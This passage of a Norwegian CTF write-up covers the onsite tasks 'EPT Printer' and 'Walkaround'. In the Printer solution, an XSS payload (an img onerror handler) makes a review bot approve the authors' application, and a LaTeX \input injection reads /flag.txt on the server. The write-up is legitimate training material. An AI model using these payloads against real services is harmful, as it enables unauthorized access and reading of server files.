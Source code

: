 Vi fant også ut at KQL godtar regex. Derfor skal det også være mulig å kjøre søket etter bokstavene med betydelig færre requests.

<details><summary>Flagg</summary></details>



# ONSITE

## EPT PRINTER

### Oppgave

EPT Print var en utskriftstjeneste med en Flask-backend. De ferdige utskriftene kunne printes onsite.

For å bruke printeren må en først verifiseres. I tillegg til Flask-serveren var det en bot som kjørte en headless nettleser for å åpne og gjennomgå disse søknadene, men uten å godkjenne dem.

### Løsning

Først trenger vi å bli godkjent for å få bruke printeren. Det kan vi gjøre med å injecte XSS slik at botten som godkjenner søknaden godkjenner den automatisk:

```html
<img src="x" onerror="document.getElementById('submit').click();">
```

Når vi blir approved for å bruke printene forsøker vi å utnytte at vi kan skrive LaTeX til å¨lese en eventuell flaggfil:

```latex
\begingroup
\catcode`\%=12
\catcode`\_=12
\input{/flag.txt}
\endgroup
```

`\catcode`\%=12` og `\catcode`\_%_=12` er lagt til for at eventuelle `%` og `_` ikke skal tolkes som LaTeX før det printes. Dette viste seg å være nødvendig ettersom flagget inneholdt `_`.

<details><summary>Flagg</summary></details>


## Walkaround (multithreaded solution)

### Solution

Once the first baby tasks where solved it was time to check out this one.

The first image was quickly solved to an approximate location. Suhslok rushed out to run for the flag, meanwhile Brille became *the guy in the chair*.

<img src="onsite/walkaround/image-3.png" style="width:100%;max-width:500px">
